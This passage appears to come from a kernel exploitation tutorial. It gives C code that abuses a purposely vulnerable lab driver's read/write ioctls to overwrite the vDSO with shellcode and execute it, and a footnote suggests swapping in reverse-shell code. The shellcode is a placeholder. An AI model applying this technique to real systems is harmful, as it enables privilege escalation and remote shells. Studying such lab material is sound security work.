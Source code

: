 &rarr; Now that we have our vulnerable kernel driver ready, we can leverage it further.

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/auxv.h>
#include <sys/mman.h>

#define CHANGE_POINT 0x100000
#define RW_READ 0x100001
#define RW_WRITE 0x100002

struct vunl {
    char *point;
    size_t size;
} VUNL;

char shellcode[] =
    " our shellcode here "

size_t get_vdso_address() {
    size_t addr = getauxval(AT_SYSINFO_EHDR);
    if (!addr) {
        puts("[-] Unable to get vDSO address");
        exit(1);
    }
    printf("[+] vDSO address: 0x%lx\n", addr);
    return addr;
}

int main() {
    int fd = open("/dev/rw_any_dev", O_RDWR);
    if (fd < 0) {
        perror("[-] Cannot open device");
        return 1;
    }

    char *buf = malloc(0x1000);
    size_t vdso_addr = get_vdso_address();

    VUNL.point = (char *)vdso_addr;
    VUNL.size = 0x1000;
    ioctl(fd, CHANGE_POINT, &VUNL);
    ioctl(fd, RW_READ, buf);
    sleep(1);

    printf("[+] Overwriting vDSO at: %p\n", VUNL.point);
    VUNL.size = strlen(shellcode);
    ioctl(fd, RW_WRITE, shellcode);
    sleep(1);

    puts("[+] Shellcode injected. Checking execution...");
    ((void (*)())vdso_addr)();

    return 0;
}
```


[^1]: The shellcode uses `execve("/bin/sh")` to spawn a shell. You can swap it for reverse shell code or anything else depending on your use case.
